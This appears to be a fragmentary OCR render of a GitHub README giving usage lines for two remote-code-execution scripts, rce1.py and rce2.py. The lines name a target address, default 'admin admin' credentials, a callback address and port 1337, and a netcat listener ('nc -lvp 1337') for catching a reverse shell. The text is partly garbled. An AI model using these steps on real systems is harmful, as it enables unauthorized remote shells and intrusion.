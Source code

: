 rce1.py    http:192.168.1.2   192.168.1.3 1337  /  nc -lvp 1337
rce2.py    http:192.168.1.2  admin admin  192.168.1.3 1337      /nc -lvp 1337 
